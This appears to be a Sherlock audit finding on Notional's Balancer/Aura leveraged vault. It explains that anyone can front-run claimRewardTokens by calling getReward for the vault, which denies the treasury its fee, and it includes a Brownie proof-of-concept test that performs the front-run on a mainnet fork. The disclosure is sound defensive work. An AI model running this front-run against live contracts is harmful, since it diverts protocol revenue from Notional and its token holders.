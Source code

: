 xiaoming90

high

# Malicious Users Can Deny Notional Treasury From Receiving Fee

## Summary

Malicious users can deny Notional Treasury from receiving fees when rewards are reinvested.

## Vulnerability Detail

The `claimRewardTokens` function will harvest the reward tokens from the Aura Pool, and the reward tokens will be transferred to the Balancer Vault. At lines 77-78, a portion of the reward tokens would be sent to the `FEE_RECEIVER`. After clarifying with the sponsor, it was understood that the `FEE_RECEIVER` would be set to Notional Treasury so that it would receive some of the accrued reward tokens.

https://github.com/sherlock-audit/2022-09-notional/blob/main/leveraged-vaults/contracts/vaults/balancer/mixins/AuraStakingMixin.sol#L61

```solidity
File: AuraStakingMixin.sol
61:     function claimRewardTokens() external returns (uint256[] memory claimedBalances) {
62:         uint16 feePercentage = BalancerVaultStorage.getStrategyVaultSettings().feePercentage;
63:         IERC20[] memory rewardTokens = _rewardTokens();
64: 
65:         uint256 numRewardTokens = rewardTokens.length;
66: 
67:         claimedBalances = new uint256[](numRewardTokens);
68:         for (uint256 i; i < numRewardTokens; i++) {
69:             claimedBalances[i] = rewardTokens[i].balanceOf(address(this));
70:         }
71: 
72:         AURA_REWARD_POOL.getReward(address(this), true);
73:         for (uint256 i; i < numRewardTokens; i++) {
74:             claimedBalances[i] = rewardTokens[i].balanceOf(address(this)) - claimedBalances[i];
75: 
76:             if (claimedBalances[i] > 0 && feePercentage != 0 && FEE_RECEIVER != address(0)) {
77:                 uint256 feeAmount = claimedBalances[i] * feePercentage / BalancerConstants.VAULT_PERCENT_BASIS;
78:                 rewardTokens[i].checkTransfer(FEE_RECEIVER, feeAmount);
79:                 claimedBalances[i] -= feeAmount;
80:             }
81:         }
82: 
83:         emit BalancerEvents.ClaimedRewardTokens(rewardTokens, claimedBalances);
84:     }
```

Within the `claimRewardTokens` function, it will call the ` AURA_REWARD_POOL.getReward` to harvest the reward tokens. Within the `claimRewardTokens` function, it also uses the pre-balance and post-balance of the reward tokens to check the actual amount of reward tokens that are transferred into the vault.

However, the issue is that anyone can claim reward tokens from Aura Pool on behalf of any address. Following is the implementation of the `getReward` function taken from Aura's BaseRewardPool4626 contract called by the vault for reference. 

https://etherscan.io/address/0xdcee1c640cc270121faf145f231fd8ff1d8d5cd4

```solidity
/**
 * @dev Gives a staker their rewards, with the option of claiming extra rewards
 * @param _account     Account for which to claim
 * @param _claimExtras Get the child rewards too?
 */
function getReward(address _account, bool _claimExtras) public updateReward(_account) returns(bool){
    uint256 reward = earned(_account);
    if (reward > 0) {
        rewards[_account] = 0;
        rewardToken.safeTransfer(_account, reward);
        IDeposit(operator).rewardClaimed(pid, _account, reward);
        emit RewardPaid(_account, reward);
    }

    //also get rewards from linked rewards
    if(_claimExtras){
        for(uint i=0; i < extraRewards.length; i++){
            IRewards(extraRewards[i]).getReward(_account);
        }
    }
    return true;
}

modifier updateReward(address account) {
    rewardPerTokenStored = rewardPerToken();
    lastUpdateTime = lastTimeRewardApplicable();
    if (account != address(0)) {
        rewards[account] = earned(account);
        userRewardPerTokenPaid[account] = rewardPerTokenStored;
    }
    _;
}

function earned(address account) public view returns (uint256) {
    return
        balanceOf(account)
            .mul(rewardPerToken().sub(userRewardPerTokenPaid[account]))
            .div(1e18)
            .add(rewards[account]);
}
```

Assume that a malicious user front runs a call to claim rewards tokens. When a keeper calls the ` AURA_REWARD_POOL.getReward` to harvest the reward tokens, it will return no reward tokens, and therefore the difference between the pre-balance and post-balance of the reward tokens will amount to zero. Therefore, no reward tokens will be sent to the `FEE_RECEIVER` (Notional Treasury) as a fee.

#### Proof-of-Concept

The `test_claim_rewards_success` test case shows that under normal circumstances, the Notional treasury will receive a portion of the accrued BAL and AURA as fees.

The `test_claim_rewards_success_frontrun` test case shows that if the `getReward` is front-run by an attacker, the Notional treasury will receive nothing.

The following is the test script and its result. 

```python
import pytest
from brownie import ZERO_ADDRESS, Wei, accounts, interface
from tests.fixtures import *
from tests.balancer.helpers import enterMaturity, get_metastable_amounts
from scripts.common import get_univ3_single_data, get_univ3_batch_data, DEX_ID, TRADE_TYPE

chain = Chain()

def test_claim_rewards_success(StratStableETHstETH):
    (env, vault) = StratStableETHstETH
    primaryBorrowAmount = 100e8
    depositAmount = 50e18
    enterMaturity(env, vault, 1, 0, depositAmount, primaryBorrowAmount, accounts[0])
    chain.sleep(3600 * 24 * 365)
    chain.mine()
    feeReceiver = vault.getStrategyContext()["baseStrategy"]["feeReceiver"]
    feePercentage = vault.getStrategyContext()["baseStrategy"]["vaultSettings"]["feePercentage"] / 1e2
    assert env.tokens["BAL"].balanceOf(vault.address) == 0
    assert env.tokens["AURA"].balanceOf(vault.address) == 0
    assert env.tokens["BAL"].balanceOf(feeReceiver) == 0
    assert env.tokens["AURA"].balanceOf(feeReceiver) == 0

    vault.claimRewardTokens({"from": accounts[1]})

    # Test that the fee receiver received portion of the rewards as fee
    assert env.tokens["BAL"].balanceOf(feeReceiver) > 0
    assert env.tokens["AURA"].balanceOf(feeReceiver) > 0

def test_claim_rewards_success_frontrun(StratStableETHstETH):
    (env, vault) = StratStableETHstETH
    primaryBorrowAmount = 100e8
    depositAmount = 50e18
    enterMaturity(env, vault, 1, 0, depositAmount, primaryBorrowAmount, accounts[0])
    chain.sleep(3600 * 24 * 365)
    chain.mine()
    feeReceiver = vault.getStrategyContext()["baseStrategy"]["feeReceiver"]
    feePercentage = vault.getStrategyContext()["baseStrategy"]["vaultSettings"]["feePercentage"] / 1e2
    assert env.tokens["BAL"].balanceOf(vault.address) == 0
    assert env.tokens["AURA"].balanceOf(vault.address) == 0
    assert env.tokens["BAL"].balanceOf(feeReceiver) == 0
    assert env.tokens["AURA"].balanceOf(feeReceiver) == 0

    auraPool = interface.IAuraRewardPool(vault.getStrategyContext()["stakingContext"]["auraRewardPool"])
    auraPool.getReward(vault.address, True, {"from": accounts[5]}) # Attacker frontrun the getReward
    vault.claimRewardTokens({"from": accounts[1]})

    # Test that the fee receiver received nothing due the frontrunning
    assert env.tokens["BAL"].balanceOf(feeReceiver) == 0
    assert env.tokens["AURA"].balanceOf(feeReceiver) == 0
```

```bash
❯ brownie test tests/balancer/rewards/test_rewards_stable_eth_steth.py --network mainnet-fork
Brownie v1.18.1 - Python development framework for Ethereum

=============================================================================================== test session starts ===============================================================================================
platform linux -- Python 3.8.10, pytest-6.2.5, py-1.11.0, pluggy-1.0.0
plugins: eth-brownie-1.18.1, hypothesis-6.27.3, forked-1.4.0, xdist-1.34.0, web3-5.27.0
collected 2 items                                                                                                                                                                                                 
Attached to local RPC client listening at '127.0.0.1:8545'...

tests/balancer/rewards/test_rewards_stable_eth_steth.py ..                                                                                                                                                  [100%]

========================================================================================== 2 passed, 1 warning in 5.72s ===========================================================================================
```

## Impact

Notional Treasury will not receive a portion of the accrued reward tokens as fees. Loss of assets for Notional protocol and its governance token holders.

## Code Snippet

https://github.com/sherlock-audit/2022-09-notional/blob/main/leveraged-vaults/contracts/vaults/balancer/mixins/AuraStakingMixin.sol#L61

## Tool used

Manual Review

## Recommendation

It is recommended not to use the pre-balance and post-balance of the reward tokens when claiming reward tokens. A more robust internal accounting scheme needs to be implemented to keep track of actual reward tokens received from the pool so that the appropriate amount of the accrued reward tokens can be sent to the Notional Treasury.

#### Reference

A similar high-risk issue was found in the past audit report

- https://code4rena.com/reports/2022-01-notional/#h-01-treasury-cannot-claim-comp-tokens--comp-tokens-are-stuck